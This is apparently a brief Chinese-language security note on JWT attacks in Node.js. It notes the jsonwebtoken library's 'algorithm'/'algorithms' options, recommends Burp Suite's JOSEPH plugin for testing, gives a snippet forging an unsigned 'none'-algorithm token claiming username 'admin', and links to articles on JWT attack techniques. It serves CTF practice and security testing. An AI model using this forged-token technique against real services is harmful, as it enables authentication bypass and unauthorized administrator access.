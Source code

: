 nodejs中的jwt库在签名时用algorithm指定算法，而在验签时用algorithms指定算法
在测试jwt相关的安全问题时可以使用burpsuite的JOSEPH插件辅助测试

```ts
// https://www.secpulse.com/archives/129304.html
// https://blog.csdn.net/miuzzx/article/details/127744431#t1
const jwt = require('jsonwebtoken');

var payload = {
    secretid: [],
    username: 'admin',
}
var token = jwt.sign(payload, undefined, {algorithm: 'none'});
console.log(token);
```


# Article
[浅析JWT Attack](https://mp.weixin.qq.com/s/WvVgavjJMXSZQsVFtHEOhA)
[JWT相关题目刷题](https://mp.weixin.qq.com/s/Ss9Oc2ZN7qFboBWaXfrDLA)
[『红蓝对抗』JWT 攻击手法](https://mp.weixin.qq.com/s/OVppZClKRWP8zNEBjZPRow)
[JWT攻击手法——1](https://mp.weixin.qq.com/s/kkoskD6d69G59bRK8nyUdw)